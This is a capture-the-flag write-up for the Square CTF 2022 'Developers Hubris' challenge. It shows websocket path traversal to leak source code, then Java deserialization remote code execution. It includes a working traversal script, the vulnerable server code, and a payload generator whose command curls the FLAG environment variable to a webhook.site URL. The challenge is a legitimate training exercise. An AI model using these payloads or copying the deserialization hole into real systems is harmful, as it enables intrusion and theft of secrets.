



## Challenge Description

You're a new security engineer at the company, and you just found a fairly old, unfinished application running in a staging environment that is exposed to the internet. You bring this up to the developers, since it seems likely that hackers will look for ways to use this application as an entrypoint into the corporate environment. However, they tell you that it's just a basic bug report submission portal, and any dangerous code has been removed or hidden, so it should be safe. See if they left any loose ends that could be used to compromise the entire application

Author: Alex Hanlon

Points: 500

## Solution

We land on some kind of bug report page which doesn't seem all that notable by itself, aside from using `..` in the subject line, which makes the server throw an error.



Inspecting the page reveals the existence of a `help.html` link. Here, `Launch Help` establishes a websocket connection, using some weird text format (STOMP, from `help.js`) to communicate with the server.



```js
function connect() {
  const socket = new SockJS('/gs-guide-websocket');
  stompClient = Stomp.over(socket); // <-- this
  stompClient.connect({}, function (frame) {
    setConnected(true);
    console.log('Connected: ' + frame);
    subId = Math.floor(Math.random() * 100000000).toString() +
        Math.floor(Math.random() * 100000000).toString() +
        Math.floor(Math.random() * 100000000).toString() +
        Math.floor(Math.random() * 100000000).toString();
    stompClient.subscribe('/queue/' + subId, function (assistance) {
      showAssistance(JSON.parse(assistance.body).content);
    });
  });
}
```

Basically, STOMP defines a couple of message types that you can send, like `CONNECT` (connects to server), `SUBSCRIBE` (subscribes to some channel that the websocket can listen on?) and `SEND` (sends body data, much like HTTP POST form data). For instance, if you ask for Time in the interface, this'll be sent over the websocket:

```
SEND
destination:/app/help
content-length:60

{"module":"Time","subId":"66279241727517418430986194010014"}
```

If you try to switch out `module` with someting like `test`, you get an `java.nio.file.NoSuchFileException: /DevelopersHubris/Help/test` error. At this point we try checking for the existence of directories or reading other files that might exist on their machine (searching for `gs-guide-messaging` turns up a starter Java repo, which contains a couple of files that you might try to read, like `../pom.xml`, ` ../src/main/java/com/example/developershubris/`). Going out of  `/DevelopersHubris ` is a no-go, because they block it (`com.example.developershubris.PathSecurityUtil$PathSecurityException: Cannot access files outside of the application directory `). Here's a bit from `pom.xml` (after running a bit of regex cleanup on it):

```xml
	</parent>  
	<groupId>com.example</groupId>  
	<artifactId>DevelopersHubris</artifactId>  
	<version>0.0.1-SNAPSHOT</version>  
	<name>DevelopersHubris</name>  
	<description>DevelopersHubris</description>  
	<properties>  
		<java.version>17</java.version>  
	</properties>  
```

At this point you're stuck until you come up with *"Hey I've ran a few Java applications. What if they have a `target` folder with a jar in it too?"*. With a bit of guessing, you get `../target/DevelopersHubris-0.0.1-SNAPSHOT.jar`, and the server returns a load of data. Here, I fumbled a bit with trying to get a large file sent over a websocket connection, and I never really managed to get the resulting data into a valid JAR file that I could open. Nevertheless, `strings target.jar | awk '{ if (length($0) > 13) print }' > filenames.txt` gets me a bunch of strings that include the names of files that exist in the application directory:



Overview of important files extracted:

- Command.java - contains a serializable(!) object that grants free RCE upon calling `readObject()` on it. Notably, It splits the `command` string into three, and calls `Runtime.getRuntime().exec(commandArray)` on it, meaning that you'll want to _not_ enclose any argument within a string. We used `bash -c curl http://ourdomain?c=${FLAG}`.
- CommandController.java - contains logic for exposing a  `/command` route which gives RCE, but the `@Controller` metadata annotation got removed, so it's useless to us.
- DiagnosticsController.java - exposes a `/diagnostics` GET route that reads a  `./Errors/.<errorId>` file `base64` decodes it, and calls `readObject()` on it.
- ReportsController.java - writes a file to `Reports/<subject>/<name>`, and hints at the existence of the flag in the `FLAG` env var.

So, we create our own Java project, pop `Command.java` in there with , instantiate it with our payload and write it out as a `base64` file, that we write to `Reports/<subject>/<name>`, and finally we go to `/diagnostics?errorId=./Reports/<subject>/<name>` to execute our payload and get their flag.

`flag{8db7145f70954219ba589a54586710da}`

## Files

`script.py`:

```python
import requests
import json
import time
import aiohttp
import asyncio
import os
import sys
import re
import websockets
from bs4 import BeautifulSoup
from urllib.parse import quote_plus

async def main():
    url = "ws://chals.2022.squarectf.com:4104"
    payload = "T(java.lang.Runtime).getRuntime().exec('curl http://webhook.site/7292cf0c-3a49-416c-a9d0-ce5c52f42934')"
    selector_header = f"selector:{payload}" # wild guess lmao, didn't get me anywhere
    path = "../src/main/java/com/example/developershubris/WebSocketConfig.java"
    path = "../src/main/java/com/example/developershubris/DevelopersHubrisApplication.java"
    path = "../src/main/java/com/example/developershubris/HelpController.java"
    path = "../src/main/java/com/example/developershubris/Assistance.java"
    path = "../src/main/java/com/example/developershubris/HelpRequest.java"
    path = "../src/main/java/com/example/developershubris/PathSecurityUtil.java"
    path = "../src/main/resources/application.properties"
    path = "../Help"
    path = "../Reports"
    path = "../Errors"
    path = "../mvnw.cmd"
    path = "../src/test/java/com/example/developershubris/DevelopersHubrisApplicationTests.java"
    path = "../target/DevelopersHubris-0.0.1-SNAPSHOT.jar"
    path = "../src/main/java/com/example/developershubris/Command.java"
    path = "../src/main/java/com/example/developershubris/CommandController.java"
    path = "../src/main/java/com/example/developershubris/DiagnosticsController.java"
    path = "../src/main/java/com/example/developershubris/ReportsController.java"
    path = "../src/main/java/com/example/developershubris/ExceptionLoggerControllerAdvice.java"
    # set max_size to allow for large response
    async with websockets.connect(f"{url}/gs-guide-websocket/939/tx2bcmqi/websocket", max_size=(300 * 10 ** 9)) as ws:
        data = await ws.recv()
        cmd = construct_command("CONNECT", ["accept-version:1.1,1.0", "heart-beat:10000,10000"])
        await ws.send(cmd)
        data = await ws.recv()
        cmd = construct_command("SUBSCRIBE", ["id:sub-0", "destination:/queue/0"])
        await ws.send(cmd)
        cmd = construct_command("SEND", ["destination:/app/help"], {"module":path,"subId":"0"})
        await ws.send(cmd)
        data = await ws.recv()
        parsed = json.loads(data[1:])[0].split("\n\n", 1)[1][:-1]
        parsed = json.loads(parsed)["content"]
        print(parsed)

def construct_command(command, headers, body=None):
    NL = "\n"
    payload = command + NL
    headers = "\n".join(headers) + NL
    if body:
        try:
            body_string = json.dumps(body).replace(" ", "")
        except:
            body_string = body
        content_length = f"content-length:{len(body_string)}{NL}"
        headers += content_length
        payload += headers + NL
        payload += body_string
    else:
        payload += headers + NL
    payload += "\u0000"
    return json.dumps([payload])

if __name__ == '__main__':
    asyncio.run(main())
```

`Command.java`:

```java
package com.example.developershubris;

import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;

public class Command implements java.io.Serializable {

  public String command;
  public Command(String command)
  {
    this.command = command;
  }

  private void writeObject(java.io.ObjectOutputStream out)
      throws IOException, ClassNotFoundException {

    out.writeUTF(this.command);
  }

  private void readObject(java.io.ObjectInputStream in)
      throws IOException, ClassNotFoundException, InterruptedException {
    this.command = in.readUTF();
    String[] commandArray = this.command.split(" ", 3);
    Process commandProcess = Runtime.getRuntime().exec(commandArray);
    int commandProcessExitCode = commandProcess.waitFor();
    StringBuilder commandStringBuilder = new StringBuilder();
    if(commandProcessExitCode != 0) {
      BufferedReader commandOutputReader =
            new BufferedReader(new InputStreamReader(commandProcess.getInputStream()));
      String commandOutputLine;
      while ((commandOutputLine = commandOutputReader.readLine()) != null)
        commandStringBuilder.append(commandOutputLine);

      BufferedReader commandErrorReader =
            new BufferedReader(new InputStreamReader(commandProcess.getErrorStream()));
      String commandErrorLine;
      while ((commandErrorLine = commandErrorReader.readLine()) != null)
        commandStringBuilder.append(commandErrorLine);

      throw new RuntimeException(commandStringBuilder.toString());
    }
  }
}
```

`DiagnosticsController.java`:

```java
package com.example.developershubris;

import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.util.ArrayList;
import java.util.List;
import org.springframework.stereotype.Controller;
import org.springframework.ui.Model;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.apache.commons.codec.binary.Base64InputStream;

@Controller()
public class DiagnosticsController {

  @GetMapping ("/diagnostics")
  public String getDiagnostics (@RequestParam() String errorID, Model model) throws IOException, ClassNotFoundException {

    File errorFile = PathSecurityUtil.GetSafePath("./Errors/." + errorID).toFile();

    Exception errorObject = null;
    try (FileInputStream fileIn = new FileInputStream(errorFile);
         Base64InputStream base64In = new Base64InputStream(fileIn);
         ObjectInputStream in = new ObjectInputStream(base64In)) {
      errorObject = (Exception) in.readObject(); // hacking entrypoint
    }

    List<Throwable> causes = new ArrayList<>();
    Throwable cause = errorObject.getCause();
    while(cause != null){
      causes.add(cause);
      cause = cause.getCause();
    }


    model.addAttribute("error", errorObject);
    model.addAttribute("causes", causes);
    return "diagnostics";
  }
}
```

`ReportsController.java`:

```java
package com.example.developershubris;

import java.io.File;
import java.io.FileWriter;
import java.io.IOException;
import java.nio.file.Path;
import java.util.ArrayList;
import java.util.Arrays;
import java.util.List;
import java.util.stream.Collectors;
import org.springframework.stereotype.Controller;
import org.springframework.ui.Model;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.ResponseBody;

@Controller
public class ReportsController {

  @GetMapping("/reports")
  public String getReports (@RequestParam() String name, Model model) throws IOException {

    Path reportsPath = PathSecurityUtil.GetSafePath("Reports/" + name);
    File reportsDirectory = reportsPath.toFile();
    List<String> reportsNames = new ArrayList<>();
    if(reportsDirectory.exists()) {
      File[] reportFiles = reportsDirectory.listFiles((reportFile) -> !reportFile.isHidden());
      if(reportFiles != null)
        reportsNames = Arrays.stream(reportFiles).
            map(File::getName).
            collect(Collectors.toList());
    }

    model.addAttribute("name", name);
    model.addAttribute("reports", reportsNames);
    return "reports";
  }

  @GetMapping("/reports/submit")
  public String getReportsSubmit (){

    return "index";
  }

  @PostMapping("/reports/submit")
  @ResponseBody
  public String postReportsSubmit (@RequestParam() String name,
      @RequestParam() String subject,
      @RequestParam() String message) throws IOException {

    // TODO: Encrypt reports using key stored in env variable
    // String key = System.getenv("FLAG");

    Path reportsDirectoryPath = PathSecurityUtil.GetSafePath("Reports/" + name);
    File reportsDirectory = reportsDirectoryPath.toFile();
    if(!reportsDirectory.exists() && !reportsDirectory.mkdir())
      return "Sorry, a new folder couldn't be created for your reports";
    File reportFile = PathSecurityUtil.GetSafePath(reportsDirectoryPath, subject).toFile();
    if(!reportFile.exists())
    {
      if(!reportFile.createNewFile())
        return "Sorry, the new report could not be saved";
    }
    try (FileWriter reportFileWriter = new FileWriter(reportFile)) {
      reportFileWriter.write(message);
    }

    return "Thank you for your submission!";
  }
}

```

My `/src/com/example/developershubris/App.java` (in a `Java` project with `commons-codec-1.15.jar` in `/bin` and `Command.java` in `/src/com/example/developershubris/Command.java`):

```java
package com.example.developershubris;

import java.io.File;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.io.OutputStream;
import java.nio.file.Paths;

import org.apache.commons.codec.binary.Base64OutputStream;
import org.apache.commons.codec.binary.Base64InputStream;

public class App {
    public static void main(String[] args) throws Exception {
        File errorFile = Paths.get("./payload").toFile();
        Command cmd = new Command("/bin/bash -c curl http://webhook.site/my_unique_uuid?c=${FLAG}");
        try {
            FileOutputStream fileOut = new FileOutputStream(errorFile);
            OutputStream b64Out = new Base64OutputStream(fileOut);
            ObjectOutputStream out = new ObjectOutputStream(b64Out);
            out.writeObject(cmd);
            // close all
            out.close();
            b64Out.close();
            fileOut.close();
        } catch (Exception e) {
            System.out.println(e);
        }

    Exception errorObject = null;
        try {
            FileInputStream fileIn = new FileInputStream(errorFile);
            Base64InputStream b64In = new Base64InputStream(fileIn);
            ObjectInputStream in = new ObjectInputStream(b64In);
            errorObject = (Exception) in.readObject();
        } catch (Exception e) {
            System.out.println(e);
        }
    }
}
```
